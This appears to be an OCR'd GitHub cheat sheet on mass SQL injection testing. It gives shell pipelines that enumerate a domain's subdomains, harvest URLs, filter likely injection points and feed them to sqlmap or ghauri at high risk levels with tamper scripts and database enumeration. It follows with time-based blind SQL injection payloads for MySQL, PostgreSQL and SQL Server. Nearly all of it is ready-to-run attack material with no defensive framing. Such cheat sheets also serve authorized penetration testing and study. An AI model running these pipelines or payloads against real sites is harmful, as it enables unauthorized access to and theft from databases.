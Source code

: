 Automate Mass SQL Injection Testing
Once you have a list of URLs, automate testing with tools like ghauri or sqlmap:

ghauri -m cleaned-sql.txt --batch --dbs --level 3 --confirm
sqlmap -m cleaned-sql.txt --batch --random-agent --tamper=space2comment --level=5 --risk=3 --drop-set-cookie --threads 10 --dbs
To quickly find and test SQL injection points, combine subdomain discovery and URL gathering with filtering and automated scanning. Use gf pattren to extract potential SQLi URLs then run ghauri or sqlmap for confirmation and database enumeration.

Using ghauri:


subfinder -d example.com -all -silent | gau --threads 50 | uro |
gf sqli > sql.txt; ghauri -m sql.txt --batch --dbs --level 3 --confirm
Using sqlmap:


subfinder -d example.com -all -silent | gau | urldedupe |
gf sqli > sql.txt; sqlmap -m sql.txt --batch --dbs --risk 2 --level 5 --random-agent
These commands automate SQLi detection and database enumeration, saving time and increasing accuracy.

Using Time-Based Blind SQL Injection Payloads
Time delays are effective for blind SQLi detection when no error messages are shown. Here are payloads for manual testing for different databases:

MySQL
-- Basic time-based delay
SELECT SLEEP(10);

-- Inline injection with logic
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

-- Using benchmark for delay (CPU-based)
1 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(FLOOR(RAND()*2),(SELECT SLEEP(5))) AS x FROM information_schema.tables GROUP BY x) y);

-- Boolean logic delay
' OR IF(1=1, SLEEP(10), 0)-- -
PostgreSQL
-- Standard time-based delay
SELECT pg_sleep(10);

-- Conditional delay with string concatenation
' OR (CASE WHEN ((CLOCK_TIMESTAMP() - NOW()) < interval '0:0:10') 
     THEN (SELECT '1' || pg_sleep(10)) ELSE '0' END)='1

-- More concise version
' OR 1=1; SELECT pg_sleep(5);-- 

-- Using random() for variability
' OR (SELECT CASE WHEN (random() < 0.5) THEN pg_sleep(5) ELSE pg_sleep(0) END);--
Microsoft SQL Server
-- Basic delay
WAITFOR DELAY '00:00:10';

-- Inline SQLi payload
'; WAITFOR DELAY '00:00:05'; --
